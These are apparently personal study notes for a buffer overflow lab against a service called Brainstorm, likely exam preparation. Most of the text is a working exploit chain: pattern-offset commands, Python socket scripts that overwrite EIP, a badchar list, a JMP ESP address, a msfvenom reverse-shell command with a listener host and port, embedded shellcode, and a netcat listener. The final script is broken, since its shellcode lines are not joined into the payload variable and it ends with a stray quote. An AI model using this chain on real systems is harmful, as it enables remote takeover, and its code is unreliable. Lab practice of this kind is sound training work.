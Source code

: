 Need to come back and expand on this

https://github.com/milesrack/bufferoverflowprep?tab=readme-ov-file


- `ltrace` : library call tracer
- `strings` : can see string that are visible in a binary

# gdb


# Brainstorm walkthrough

Generate a reference pattern with a specified length to fuzz with.
`msf-pattern_create -l 50000`

Grab the number from the EIP register inside immunity debugger. In this case `31704330` and query for the offset number.
1. `msf-pattern_offset -l 5000 -q 31704330`
2. `[*] Exact match of offset 2012`
This means that the 2013 byte that we send will be into the return pointer "EIP"

Python script to automate sending data to the program. Can verify that the B's are showing up in the EIP register.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```


Need to check for "badchars". Once you send to Immunity debugger then right-click on the ESP and click follow in dump. Bottom left pane then check if there are any missing or blurred characters.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + badchars + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

In bottom command line of immunity debugger run `!mona modules`. This will pop up a windows to check for security measures. Can also run `!mona find -s "\xff\xe4" -m essfunc.dll` to check for a jump esp.

![](../Assets/Images/immunity-follow-button.png)
Search for the "JMP ESP". Click on it and hit *F2* to set a breakpoint so that when you run the script below on the app it will break at that point.

```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
# "jump address written backwards to replace the B's"
payload = b""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

Generate payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.42 LPORT=7777 -b "\x00" -f c
```

Add payload to script
```python

import socket
import sys

username = b"blah"
# added padding after return
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
# add payload from venom
payload = b"\xdb\xce\xd9\x74\x24\xf4\x5a\xbd\x19\x15\xae\x4c\x29\xc9"
b"\xb1\x52\x31\x6a\x17\x83\xea\xfc\x03\x73\x06\x4c\xb9\x7f"
b"\xc0\x12\x42\x7f\x11\x73\xca\x9a\x20\xb3\xa8\xef\x13\x03"
b"\xba\xbd\x9f\xe8\xee\x55\x2b\x9c\x26\x5a\x9c\x2b\x11\x55"
b"\x1d\x07\x61\xf4\x9d\x5a\xb6\xd6\x9c\x94\xcb\x17\xd8\xc9"
b"\x26\x45\xb1\x86\x95\x79\xb6\xd3\x25\xf2\x84\xf2\x2d\xe7"
b"\x5d\xf4\x1c\xb6\xd6\xaf\xbe\x39\x3a\xc4\xf6\x21\x5f\xe1"
b"\x41\xda\xab\x9d\x53\x0a\xe2\x5e\xff\x73\xca\xac\x01\xb4"
b"\xed\x4e\x74\xcc\x0d\xf2\x8f\x0b\x6f\x28\x05\x8f\xd7\xbb"
b"\xbd\x6b\xe9\x68\x5b\xf8\xe5\xc5\x2f\xa6\xe9\xd8\xfc\xdd"
b"\x16\x50\x03\x31\x9f\x22\x20\x95\xfb\xf1\x49\x8c\xa1\x54"
b"\x75\xce\x09\x08\xd3\x85\xa4\x5d\x6e\xc4\xa0\x92\x43\xf6"
b"\x30\xbd\xd4\x85\x02\x62\x4f\x01\x2f\xeb\x49\xd6\x50\xc6"
b"\x2e\x48\xaf\xe9\x4e\x41\x74\xbd\x1e\xf9\x5d\xbe\xf4\xf9"
b"\x62\x6b\x5a\xa9\xcc\xc4\x1b\x19\xad\xb4\xf3\x73\x22\xea"
b"\xe4\x7c\xe8\x83\x8f\x87\x7b\x6c\xe7\x83\x51\x04\xfa\x8b"
b"\xbb\xb5\x73\x6d\xa9\x25\xd2\x26\x46\xdf\x7f\xbc\xf7\x20"
b"\xaa\xb9\x38\xaa\x59\x3e\xf6\x5b\x17\x2c\x6f\xac\x62\x0e"
b"\x26\xb3\x58\x26\xa4\x26\x07\xb6\xa3\x5a\x90\xe1\xe4\xad"
b"\xe9\x67\x19\x97\x43\x95\xe0\x41\xab\x1d\x3f\xb2\x32\x9c"
b"\xb2\x8e\x10\x8e\x0a\x0e\x1d\xfa\xc2\x59\xcb\x54\xa5\x33"
b"\xbd\x0e\x7f\xef\x17\xc6\x06\xc3\xa7\x90\x06\x0e\x5e\x7c"
b"\xb6\xe7\x27\x83\x77\x60\xa0\xfc\x65\x10\x4f\xd7\x2d\x20"
b"\x1a\x75\x07\xa9\xc3\xec\x15\xb4\xf3\xdb\x5a\xc1\x77\xe9"
b"\x22\x36\x67\x98\x27\x72\x2f\x71\x5a\xeb\xda\x75\xc9\x0c"
b"\xcf""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

run netcat listener and then run the shell should give the connection.
`nc -lnvp 7777`

